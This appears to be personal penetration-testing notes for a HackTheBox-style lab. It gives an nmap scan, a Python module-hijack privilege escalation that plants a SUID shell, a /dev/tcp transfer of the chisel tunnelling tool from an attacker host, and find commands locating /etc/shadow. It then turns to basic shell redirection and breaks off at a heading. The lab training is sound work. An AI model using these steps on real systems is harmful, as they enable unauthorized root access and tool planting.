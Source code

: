 	nmap -sC -sV -p$ports 10.10.10.150 --open

### Preserve SUID on shell invocation

Python first checks for modules in the current working directory, before looking in the other paths. We can attempt to hijack loading of the legitimate call or urllib modules, so that our malicious module is loaded instead. Let's create a urllib.py file in the /home/frank folder with the contents below:

	vi urllib.py

```python
import os
os.system("cp /bin/sh /tmp/sh;chmod u+s /tmp/sh")
```

	/tmp/sh -p	// #

### Transfer file

Transfer chisel to DANTE-WEB-NIX01:

	nc -lvnp 80 < chisel	// in my Dante/www
	bash -c "cat < /dev/tcp/10.10.16.52/80 > chisel"

### Redirect and Pipe

#### Redirect errors to STDERR

	find /etc/ -name shadow

```text
find: ‘/etc/dovecot/private’: Permission denied
/etc/shadow
find: ‘/etc/ssl/private’: Permission denied
find: ‘/etc/polkit-1/localauthority’: Permission denied
```

	find /etc/ -name shadow 2>/dev/null

```text
/etc/shadow
```

#### Redirect STDOUT to a file

	find /etc/ -name shadow 2>/dev/null > results.txt

#### Redirect STDOUT and STDERR to Separate Files

	find /etc/ -name shadow 2> stderr.txt 1> stdout.txt

#### Redirect STDIN

	cat < stdout.txt

#### Redirect STDOUT and Append to a File
